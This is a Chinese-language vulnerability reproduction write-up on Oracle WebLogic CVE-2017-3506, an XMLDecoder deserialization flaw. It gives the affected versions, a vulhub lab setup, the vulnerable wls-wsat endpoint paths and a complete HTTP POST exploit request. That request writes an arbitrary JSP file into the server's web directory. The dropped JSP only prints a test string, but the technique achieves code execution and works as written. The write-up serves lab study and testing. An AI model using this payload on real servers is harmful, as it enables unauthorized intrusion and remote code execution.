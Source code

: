 **0x4****CVE-2017-3506**  
  
**漏洞描述**  
  
    WebLogic 的 WLS Security 组件对外提供的 WebServer 服务，其中使用了 XMLDecoder 来解析用户输入的 XML 数据，在解析的过程中存在反序列化漏洞，可导致任意命令执行。  
  
  
**影响范围**  
```
WebLogic 10.3.6.0
WebLogic 12.1.3.0
WebLogic 12.2.1.1
WebLogic 12.2.1.2
```  
  
**环境搭建**  
```
vulhub/weblogic/weak_password
docker-compose up -d
```  
  
**漏洞复现**  
  
漏洞验证路径：  
```
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```  
  
响应结果若如下图所示（注：不同路径的响应结果有细微差别），则存在 wls_wsat 组件  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEtPVKMsGGX1ibMUhbSCmexOv0FmK1qtib0a6aCmKq7yUicWAicqvEQQenaQ/640?wx_fmt=png&from=appmsg "")  
  
利用方式1：浏览器页面打印字符串  
  
HTTP请求报文如下  
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.111.128:7001
Accept-Encoding: gzip, deflate
Accept: */*Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 643

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>   
  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
  <java><java version="1.4.0" class="java.beans.XMLDecoder"> 
  <object class="java.io.PrintWriter">   
  <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/1.jsp</string> 
  <void method="println">
<string>  
  <![CDATA[
<% out.print("Successfully!"); %>
  ]]> 
  </string>  
  </void>   
  <void method="close"/>   
  </object></java></java>  
  </work:WorkContext>   
```